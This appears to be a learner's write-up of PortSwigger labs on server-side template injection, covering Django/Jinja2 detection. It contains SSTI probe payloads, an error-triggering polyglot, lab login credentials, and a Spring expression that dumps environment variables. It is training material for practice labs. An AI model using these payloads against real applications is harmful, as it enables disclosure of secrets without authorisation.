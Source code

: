 # Lab Solveed!

hint:
    ${T(java.lang.System).getenv()}



# [5. ***Lab: Server-side template injection with information disclosure via user-supplied objects***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

framework's secret key:
> Summary: The Django secret key is used to provide cryptographic signing. This key is mostly used to sign session cookies. If one were to have this key, they would be able to modify the cookies sent by the application.

*https://docs.gitguardian.com/secrets-detection/detectors/specifics/django_secret_key*

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r 

try:
    ${{<%[%'"}}%\.
response:
    Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '<%[%'"' from '<%[%'"'

we are dealing with **django**, find documentation and exploit online:

**documentation**:
https://docs.djangoproject.com/en/4.0/topics/templates/

**exploit**:
from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#django-templates

> Django template language supports 2 rendering engines by default: Django Templates (DT) and Jinja2. Django Templates is much simpler engine. It does not allow calling of passed object functions and impact of SSTI in DT is often less severe than in Jinja2.

Detection:
    {% csrf_token %} # Causes error with Jinja2
    {{ 7*7 }}  # Error with Django Templates
    ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r

payloads 1 and 2 errors out, payload 3 returns **ih0vr1097d121r**. it looks like a Jinja2 engine
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

